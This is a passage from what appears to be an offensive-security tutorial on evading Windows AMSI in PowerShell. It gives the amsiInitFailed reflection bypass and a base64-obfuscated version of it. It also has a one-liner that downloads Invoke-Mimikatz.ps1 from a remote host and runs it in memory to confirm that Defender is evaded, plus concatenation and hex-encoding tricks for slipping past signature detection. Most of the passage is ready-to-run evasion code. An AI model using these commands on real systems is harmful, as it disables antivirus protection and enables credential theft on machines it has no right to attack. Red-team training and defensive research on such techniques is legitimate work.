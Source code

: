 Now that we crafted the final payload to Patch AMSI, let us look back at the original AMSI bypass code.

```powershell
PS:\> [Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)
```

+ All we need to do now is replace *AmsiUtils* and *amsiInitFailed* with the base64 encoded payload and concat the rest of the string.
```powershell
PS:\> [Ref].Assembly.GetType($('System.Management.Automation.')+$([System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String('QQBtAHMAaQA=')))+$([System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String('VQB0AGkAbABzAA==')))).GetField($([System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String('YQBtAHMAaQA=')) + $([System.Text.Encoding]::Unicode.GetString($([System.Convert]::FromBase64String('SQBuAGkAdAA=')))) + $([System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String('RgBhAGkAbABlAGQA')))),$('NonPublic,Static')).SetValue($null,$true)
```

+ For confirmation, we can download and execute ** Mimikatz.ps1** in the memory and check if its triggering Defender.
```powershell
PS:\> IEX(iwr -uri https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1 -UseBasicParsing)
```

![image](https://github.com/0xStarlight/0xStarlight/assets/59029171/72c3622a-8fd5-4b59-9cdd-594049afd9fe)

As you can see, we successfully encoded the AMSI bypass payload in base64. Below I will give a demonstration on how to encode it in hex and use techniques like reverse string and concatenation

### <span style="color:pink">Concatenation</span>

An easy was of bypassing **"A m s i U t i l s"** is by simply splitting it into two words and adding them together.
```powershell
PS:\> 'AmsiUtils'
PS:\> 'Amsi' + 'Utils'
```

![image](https://github.com/0xStarlight/0xStarlight/assets/59029171/2600288f-d266-48b5-af41-f9b96e488368)


### <span style="color:pink">Hex Encoding</span>

A simple Hex encoding and decoding snippet in PowerShell looks like this :
```powershell
# Encoding Payload
PS:\> "Hello World" | Format-Hex

# Decoding Payload
PS:\> $r = '48 65 6C 6C 6F 20 57 6F 72 6C 64'.Split(" ")|forEach{[char]([convert]::toint16($_,16))}|forEach{$s=$s+$_} 
PS C:\> $s
```

